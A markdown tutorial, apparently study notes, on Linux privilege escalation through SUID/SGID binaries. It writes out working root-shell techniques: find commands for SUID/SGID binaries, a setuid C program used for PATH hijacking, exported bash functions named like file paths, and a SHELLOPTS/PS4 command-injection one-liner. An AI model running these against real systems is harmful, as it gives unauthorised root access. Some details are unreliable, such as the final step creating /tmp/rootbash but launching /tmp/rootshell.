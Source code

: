 # Privileges Escalation - Linux
# Exploiting SUID/SGID 
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

## Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     














